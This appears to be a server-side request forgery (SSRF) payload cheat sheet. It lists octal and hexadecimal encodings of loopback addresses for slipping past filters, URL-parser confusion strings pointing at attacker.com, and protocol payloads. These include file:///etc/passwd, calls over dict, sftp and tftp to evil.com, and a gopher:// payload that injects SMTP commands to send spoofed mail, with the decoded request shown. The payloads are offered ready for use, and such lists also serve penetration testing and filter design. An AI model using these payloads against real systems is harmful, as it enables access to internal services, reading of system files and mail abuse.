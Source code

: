 ```

# Octal Bypass
http://0177.0000.0000.0001
http://00000177.00000000.00000000.00000001
http://017700000001

# Hexadecimal bypass
127.0.0.1 = 0x7f 00 00 01
http://0x7f000001/ = http://127.0.0.1
http://0xc0a80014/ = http://192.168.0.20


# Domain Parser
https:attacker.com
https:/attacker.com
http:/\/\attacker.com
https:/\attacker.com
//attacker.com
```

### Protocols
```
# file://
file:///etc/passwd

# dict://
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/

# sftp://
ssrf.php?url=sftp://evil.com:11111/

# tftp://
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET

# ldap://
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit

# gopher://
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a

will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AHYou didn't say the magic word !
.
QUIT
```
